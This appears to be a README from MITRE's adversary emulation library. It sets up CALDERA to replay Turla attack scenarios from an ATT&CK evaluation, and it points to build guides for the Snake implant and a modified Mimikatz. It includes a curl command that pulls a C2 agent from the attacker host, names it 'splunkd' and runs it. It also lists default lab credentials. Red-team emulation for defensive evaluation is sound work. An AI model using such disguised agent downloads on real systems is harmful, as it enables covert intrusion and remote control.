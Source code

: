 # Caldera Port of Turla

## OVERVIEW

The Turla port contains two adversary profiles for each of the executed scenarios in MITRE Engenuity's ATT&CK® Evaluations: Enterprise - Round 5. **Follow the setup instructions below** and then navigate to the scenario-specific setup guides for the profile you would like to execute:

- [Carbon Scenario](Carbon_Scenario.md)
- [Snake Scenario](Snake_Scenario.md)

Information about each scenario can be found [here](../../Emulation_Plan/README.md).

## DEPENDENCIES

### CALDERA C2 Server

- Linux/Mac OS, 64-bit
- git commandline installed
- python3.8+ with pip3
- golang 1.17+
  - required for dynamic agent compilation
- Recommended hardware is 8GB+ RAM and 2+ CPUs

### Attacker Machine Dependencies

- Linux OS, 64-bit
  - Kali recommended
  - Can be the same machine as the CALDERA C2 server
- Command-line tools
  - xfreerdp
  - xdotools
  - curl
  - urllib3
  - ncat (by Nmap)

## SETUP

### Download and Install CALDERA

Run the following on a Linux/Mac machine of your choice. This machine will act as your C2 server, or the "attacker" host. For the purposes of this walkthrough, the C2 server will have an IP address of `176.59.15.33`.

```shell
git clone --depth 1 https://github.com/mitre/caldera.git --recursive
cd caldera
git checkout master && git pull
cp conf/default.yml conf/local.yml
cd plugins/emu
git checkout master && git pull
```

Add the `emu` plugin to your `conf/local.yml` configuration file. Feel free to enable or disable other plugins
by adding/removing them from the configuration file. You can also configure your user accounts and credentials if needed.

```shell
vi conf/local.yml
```

Download pip dependencies.

```shell
pip3 install --upgrade setuptools
pip3 install --upgrade pip
pip3 install -r requirements.txt
```

Download required payloads for `emu` plugin.

```shell
# from caldera/plugins/emu directory 

git checkout master && git pull
./download_payloads.sh
```

Run your C2 server from the caldera directory. This will unzip encrypted executables throughout the `adversary-emulation-library` and ingest its emulation plans.

```shell
# from caldera directory

python3 server.py --insecure --log DEBUG
```

## Compile Snake & Mimikatz Binaries

### Snake

:exclamation: Snake has not been included in this binaries.zip. Please visit the following
resources for building Snake and its components:

- [Snake Installer Build](../../Resources/Snake/SnakeInstaller/README.md#build)
- [Snake Build Script](../../Resources/Snake/buildall.ps1)

### Mimikatz

:exclamation: Mimikatz must be modified and compiled according to these [instructions](/Enterprise/turla/Resources/Mimikatz/README.md#adjustments-made-to-mimikatz-pth-function).

## Launch the Kali Agent

RDP to `176.59.15.33`, the Kali attacker host, as user `dev` with password `DevPass12345`. Launch the Kali agent by running the following command. You may need to modify the command so the server value matches your attacker host's IP address.

:exclamation: Keep this RDP open as this will be leveraged by xfreerdp in the executed Caldera operation. Once the operation has been started, avoid interacting with the RDP to Kali. Clicking or switching windows within the Kali RDP will interfere with the user activity that is automated through Caldera.

```shell
cd /home/dev/caldera/plugins/emu/data/adversary-emulation-plans/turla/Resources/control_server;
server="http://176.59.15.33:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;
chmod +x splunkd;
./splunkd -server $server -group kali -v
```

Log into CALDERA's web GUI by accessing your C2 server address in a web browser (Chrome recommended), and using your credentials (default username is `red`, default password is `admin`).

On the left sidebar, under "Campaigns", click "agents" and confirm that you see the Kali agent beaconing in.

For best results, make sure you don't have other agents currently beaconing in.
